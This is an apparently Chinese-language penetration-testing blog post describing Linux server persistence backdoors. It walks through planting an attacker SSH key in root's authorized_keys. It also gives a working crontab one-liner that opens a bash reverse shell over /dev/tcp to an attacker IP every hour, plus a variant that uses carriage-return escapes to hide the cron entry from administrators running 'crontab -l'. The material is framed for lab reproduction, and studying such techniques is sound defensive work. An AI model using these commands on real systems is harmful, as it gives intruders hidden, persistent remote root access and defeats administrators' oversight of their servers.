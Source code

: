 ```yaml
---
title: linux 服务器常见的留后门方式（二）
date: 2022-4-2 23:36:35
tags: [Backdoor,Linux,Kali]
categories: 
 - [渗透测试,后门-Backdoor]
cover: https://res.cloudinary.com/sycamore/image/upload/v1682441841/Typera/2023/04/7e00f34b8462535fcbd72b5a18b714e9.png
---
```


:::primary
整理好了搭环境的文章：[LINUX后门复现环境搭建](https://blog.sycamore.top/2022/03/21/LINUX%E5%90%8E%E9%97%A8%E5%A4%8D%E7%8E%B0%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA/)
:::

攻击者在通过各种手段获得服务器的控制权之后，通常会在服务器上布置一些脚本、进程、链接，即所谓的**后门**。其目的是，方便攻击者以后对该服务器进行持久性的攻击。

其中，在linux服务器上留后门的常见技术，**本文中会提及**如下几种：
- SSH公钥免密
- crontab后门
...

## SSH公钥免密

简而言之，**SSH公钥免密**就是，将**攻击者**生成的 **ssh公钥**写到**目标服务器**的`/root/.ssh/authorized_keys`中（手动在目标机上完成注册），
然后**攻击者**就可以利用对应的**私钥**免密登录。

**实现：**
1. 使用 **Xshell** 的 工具 -> 新建用户密钥生成向导，完成**ssh公钥、私钥**的生成：![image-20230426010853712](https://res.cloudinary.com/sycamore/image/upload/v1682442537/Typera/2023/04/0c7400e842c42ccbcd324c9147cf6c24.png)
（填入密码)
<br>
2. 保存生成的公钥文件（id_rsa_2048.pub），传到**目标服务器**上，![image-20230426010925673](https://res.cloudinary.com/sycamore/image/upload/v1682442569/Typera/2023/04/8a2edc41bc3463490d0617bcbbd9acd1.png)
<br>
3. 寻找 **authorized_keys** 文件，命令`find -name authorized_keys`，
如果没有，就通过命令`touch /root/.ssh/authorized_keys`创建。
<br>
4. 命令`ssh-keygen -t rsa`开启免密登录功能，
<br>
5. 通过命令`cat 公钥路径 >> /root/.ssh/authorized_keys`把公钥写入到**authorized_keys**，完成注册
<br>
6. 修改文件权限`chmod 600 ~/.ssh/authorized_keys`
`chmod 700 ~/.ssh`
<br>



7. 攻击者使用**Xshell**生成的**私钥**和之前填写的**密码**，登录目标服务器![image-20230426010955314](https://res.cloudinary.com/sycamore/image/upload/v1682442599/Typera/2023/04/f0b36186750c7e6ae6e0cfb6e31536aa.png)![image-20230426011015095](https://res.cloudinary.com/sycamore/image/upload/v1682442619/Typera/2023/04/3707348bcf16ceccd18bb0594ff0933d.png)

## crontab后门

**Crond**服务启动后，会**定期**（默认一分钟检查一次）检查它的配置文件中，是否有要执行的任务。
如果有，就会根据**预先设定**的**定时任务规则**自动执行该任务。
crontab是用来定期执行程序的命令，
我们可以通过**crontab**命令制造定时后门：
`(crontab -l;echo '*/60 * * * * exec 9<> /dev/tcp/192.168.158.132/2333;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i')|crontab -`

**解释：**
`echo '*/60 * * * *'`：设定每60分钟执行一次；
`exec 9<>/dev/tcp/192.168.158.132/2333`：利用bash提供的功能，对`/dev/tcp/`开头的字符串进行**解析**，指定**服务器IP**为：192.168.158.132（**攻击机**IP），**端口号**为 2333，指定描述符为9，建立网络连接；
`exec 0<&9;exec 1>&9 2>&1;`：**文件描述符** 0：stdin，1：stdout，把标准输入输出**都**重定向到描述符9；
`/bin/bash --noprofile -i`：开一个Shell。
其实就是利用 Bash **反弹**一个**Shell**到指定的攻击者IP

（ubuntu默认**没开**bash的网络重定向选项，需要加上`–enable-net-redirections`重新编译bash）

**隐藏：**
但是这样的一个后门，管理员直接执行`crontab -l`就能看到我们设定的定时任务。
![image-20230426011055514](https://res.cloudinary.com/sycamore/image/upload/v1682442659/Typera/2023/04/e8f07ae16e6573488c17eeea6f3339f2.png)
这个命令其实是在读取 `/var/spool/cron/crontabs/root`文件。
所以，我们可以利用cat的一个缺陷，使用一些**转义字符**，比如 \r 回车符 \n 换行符 \f 换页符，来**隐藏**我们不想让管理员看到的命令：
`(crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/192.168.158.132/2333;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -`
![image-20230426011110789](https://res.cloudinary.com/sycamore/image/upload/v1682442674/Typera/2023/04/0af7f80743588f2bae6b80f3903e55c6.png)但是，若是使用`cat -A /var/spool/cron/crontabs/root`还是可以看到我们隐藏的东西的。
